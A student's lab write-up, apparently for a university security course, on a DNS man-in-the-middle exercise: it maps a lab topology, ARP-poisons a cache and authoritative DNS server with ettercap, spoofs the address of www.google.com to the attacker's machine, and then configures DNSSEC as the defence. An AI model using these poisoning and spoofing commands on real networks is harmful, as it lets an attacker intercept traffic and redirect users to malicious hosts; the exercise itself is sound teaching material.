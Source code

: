 # Lorenzo Cavada Mat. 220502
Third exercise of OffTech about DNS MitM Attack. A description of the exercise can be found [here](https://www.isi.deterlab.net/file.php?file=/share/shared/DNSmaninthemiddleattack).
All the code presented in this recap can istead be found at this [link](https://github.com/LorenzoCavada/dns-cvd).

# PART 1

### 1.1 What is the IP of the DNS server?

The IP of the cache DNS server is `10.1.1.3`.

### 1.2 What is the status of the request?

The status of the request is: `NOERROR`.

### 1.3 What is the IP address of `www.google.com`?

The IP address of `www.google.com` is `10.1.2.155`.

### 1.4 How long will the `www.google.com` IP be stored in the cache?

The IP of `www.google.com` will be stored in the cache for 10 seconds.

### 1.5 What is the authoritative name server for `google.com` and what is its IP?

The authoritative name server for `google.com.` is `ns.google.com.` and its IP is `10.1.2.3`.


# PART 2

### Understanding the topology

The info are obtained performing the following commands on each device:

    arp -nn # to see the arp table of the device
    ifconfig # to see the interface, ip and MAC address

Client network info:

    IP: 10.1.1.2
    MAC: a0:36:9f:0a:5d:83


Cache server network info:

    IP: 10.1.1.3
    MAC: a0:36:9f:0a:0e:1e


Auth server network info:
    
    IP: 10.1.2.3
    MAC: 00:25:90:67:97:57

Attacker network info:

    IP: 10.1.2.4
    MAC: a0:36:9f:0a:5c:3a


The packets does not pass through the attacker in any case. This can be see by performing on the attacker
    
    sudo tcpdump -nnti ethX 

Where `ethX` is the interface with which the attacker is connected to the cache server. By performing a dns request from the client is possible to notice as no packet is intercepted by the `tcpdump` command.


# PART 3

### Perform a MitM attack using ettercap

    sudo ettercap -T -i ethX -M arp /10.1.2.2// /10.1.2.3//

    -T is used to have a text only interface
    -i is used to specify on which interface should ettercap look
    -M to start a MitM attack 
    arp is the type of MitM attack
    10.1.2.2 and 10.1.2.3 are the target.

Now, thanks to the MITM attack the traffic is passing through the attacker. That because the attacker has poisoned the arp table of the cache server and of the authorative server gaining a privilege position between the two.
Now the attacker is acting as the auth server for the cache server and as the cache server for the auth server.
All the traffic on the connection between the two server can be read, dropped or tampered by the attacker.
The poisoning can be seen by performing on the cache server the following command:

    arp -nn
    
The output will be something like the following:

    Address                  HWtype  HWaddress           Flags Mask            Iface
    10.1.2.3                 ether   a0:36:9f:0a:5c:3a   C                     eth5
    192.168.1.254            ether   00:1b:21:cd:de:b1   C                     eth0
    10.1.1.2                 ether   a0:36:9f:0a:5d:83   C                     eth4
    10.1.2.4                 ether   a0:36:9f:0a:5c:3a   C                     eth5
    
Is possible to notice how the attacker (`10.1.2.4`) and the auth server (`10.1.2.3`) share the same MAC address which is the one of the attacker.

Is now possible to perform a DNS cache poisoning trickying the cache server to save as IP associated with `www.google.com` one choice by the attacker, let's assume the attacker's one (`10.1.2.4`). First of all is needed to update the file inside the attacker located at `/etc/ettercap/etter.dns` to include the malicious association between domain and IP, so in that file add:

    www.google.com A 10.1.2.4

This will create the malicious association between the domain `www.google.com` and the IP of the attacker. Now by restarting `ettercap` is possible to use the plug-in `dns_spoof` (first start `ettercap`, then pres `p` and write `dns_spoof`).
By performing a `dig` request from the client is possible to notice how the answer will associate the reqeusted domain with the IP of the attacker, meaning that the spoof is working as expected.

# PART 4

### Implementing DNSSEC

First of all is needed to configure the `auth` server. So connect throw ssh and perform the following step.

Add the following options for DNSsec in `/etc/bind/named.conf.options`, this are for enabling the dnssec feature.

    dnssec-enable yes;
    dnssec-validation yes; # requires manually-configured trust anchors using trusted-keys or managed-keys.

Now is time to generate the needed ZSK key. Create a directory called `keys` in `/etc/bind/` and, inside the just created folder type:
    
    sudo dnssec-keygen -r /dev/urandom -a RSASHA256 -b 1024 -n ZONE google.com

This will create both the private and the public key.

Now is time to sign the domain `google.com` in `/etc/bind/`.

    sudo dnssec-signzone -S -K /etc/bind/keys/ -P -g -a -o google.com google.com

This will generate a signed version of the dns record for `google.com` called `google.com.signed`.

The last step is to update the `named.conf.local` updating the zone `google.com` by specifing to use the `.signed` one.

Now restart bind.

    sudo service bind9 restart
    
#### Configuring the Cache server
Now is time to update the cache server to start using DNSsec.

Add the following options for DNSsec in `/etc/bind/named.conf.options`, this are for enabling the dnssec feature.

    dnssec-enable yes;
    dnssec-validation yes;
        
    
Edit the file `bind.keys` for adding the ZSK key generated in the auth server. Is possible to see it by typing `cat Kgoogle...key` in the auth server.
Remember to use the same structure as follow.

    google.com. initial-key 256 3 8 "AwEAAbfjp9HRf9gR7DQqc5fQ5n6nek/cqoBgMoKJoMpeo8GubS20Ftt4 fGeKSm8QNSZ9qw91QFfyxj7biovH5d1X3CIVT3/KOB7Khuo5MwU/6WhT wBnH2yp/HfHI/5gsK7JlE3HTVjOGb2VeGHZn0PXTj/eVIVV9JO+vAUTO mM2Cy6Yt";


Last step is to update the `named.conf` file including the `bind.keys` file just modified.

    include "/etc/bind/bind.keys";

Now again restart the server.

    sudo service bind9 restart


Is now possible to see how, if performing a `dig` request from the client with the `+dnssec` option added, the response will include a new `ad` flags, meaning that the request has been validated. 


